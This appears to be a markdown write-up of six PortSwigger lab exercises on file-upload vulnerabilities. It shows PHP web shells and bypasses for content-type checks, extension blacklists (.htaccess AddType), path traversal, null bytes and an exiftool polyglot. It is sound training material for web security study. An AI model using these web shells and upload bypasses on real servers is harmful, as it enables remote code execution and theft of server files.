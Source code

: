 # File upload 



### Table of Contents

- [Remote code execution via web shell upload](#remote-code-execution-via-web-shell-upload)
- [Web shell upload via Content-Type restriction bypass](#web-shell-upload-via-content-type-restriction-bypass)
- [Web shell upload via path traversal](#web-shell-upload-via-path-traversal)
- [Web shell upload via extension blacklist bypass](#web-shell-upload-via-extension-blacklist-bypass)
- [Web shell upload via obfuscated file extension](#web-shell-upload-via-obfuscated-file-extension)
- [Remote code execution via polyglot web shell upload](#remote-code-execution-via-polyglot-web-shell-upload)



----





### [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

Goal : upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- write a simple php code to view the content of `/home/carlos/secret`
  ```php
  <?php
  echo shell_exec('cat /home/carlos/secret');
  ?>
  ```

- upload the file

- from burp make the `Content-Type` header as a `text/html` 
  >to view all different extensions and equivalent value of Content-type header : [Content-Type](https://www.php.net/manual/en/function.mime-content-type.php#87856)



<img src=".\file_upload_img\1_2.png" style="zoom:80%;" />



- you will get the path of the file `The file avatars/code.php has been uploaded. `
- go to the file path and you will see the secret text

![](C:\Users\dell\Desktop\file_upload_img\1_1.png)







------





### [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

Goal : upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get 
  ```
  Sorry, file type application/octet-stream is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.
  ```

- I changed the `Content-Type` header to  `image/png` and sent the request

  

  <img src=".\file_upload_img\2_1.png" style="zoom:80%;" />

  

- you will get the path of the file `The file avatars/code.php has been uploaded. `
- go to the file path and you will see the secret text



------





### [Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

Goal : upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`
- login with your credentials `wiener : peter`
- if you try to upload the previous php file you will get `The file avatars/code.php has been uploaded.`
- go to the file path
- notice that the page is blank and the code doesn't executed , it's just exists as a plain text
- In the `Content-Disposition` header, change the `filename` to `../code.php`
- notice that the file has been uploaded to `/files/code.php` NOT `/files/avatars/code.php` , so the filename parameter is vulnerable to path traversal
- the server performs URL decoding to the file name , So send the same request but encode the `/` with URL encoding (`%2f`) , you will get `The file avatars/../code.php has been uploaded`

<img src=".\file_upload_img\3_1.png" style="zoom:80%;" />



- go to `/files/avatars/..%2fcode.php` and you will see the secret text





------





### [Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)

Goal : upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get `Sorry, php files are not allowed Sorry, there was an error uploading your file.`

- the extension `php` is blocked so i tried other php extensions to bypass the blacklisted extension

- from burp intruder i loaded these extensions and the file uploaded successfully but it was as a plain text
  >for more extensions and bypasses : [file upload bypass](https://book.hacktricks.xyz/pentesting-web/file-upload) 

  ```
  .php2
  .php3
  .php4
  .php5
  .php6
  .php7
  ```

- we need to tell the server to execute any extension we add as a `php`code , so we will add our `.htaccess` file

- change filename to `.htaccess` with `Content-Type : html/plain` and content : 
  ```
  AddType application/x-httpd-php .php0
  ```

- now any file with `php0` extension will be executed as a `php` code

<img src=".\file_upload_img\4_1.png" style="zoom:80%;" />



- back to the previous request , change the filename to `code.php0` and send the request



<img src=".\file_upload_img\4_2.png" style="zoom:80%;" />



- you will get the path of the file `The file avatars/code.php0 has been uploaded. `
- go to the file path and you will see the secret text





------





### [Web shell upload via obfuscated file extension](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)

Goal : upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get `Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.`

- the extension `php` is blocked so I tried URL-encoded null byte characters (`%00`) before the file extension 



<img src=".\file_upload_img\5_1.png" style="zoom:80%;" />





- you will get the path of the file `The file avatars/code.php has been uploaded. `
- go to the file path and you will see the secret text

<img src="C:\Users\dell\Desktop\file_upload_img\5_2.png" style="zoom:80%;" />





------





### [Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

Goal : upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get `Error: file is not a valid image Sorry, there was an error uploading your file.`

- I tried URL-encoded null byte characters (`%00`) before the file extension  , but I got the same message

- we need to inject our php code in any image , so we will use `exiftool` to do that
  ```bash
  exiftool -Comment="<?php echo 'Carlos Secret' . shell_exec('cat /home/carlos/secret'); ?>"  -o code.php
  ```

- this command will add this comment to the image metadata



<img src=".\file_upload_img\6_1.png" style="zoom:80%;" />



- upload the image 

<img src=".\file_upload_img\6_2.png" style="zoom:80%;" />



- go to your image path `/files/avatars/code.php` , you will get the secret text in the response



<img src=".\file_upload_img\6_3.png" style="zoom:80%;" />



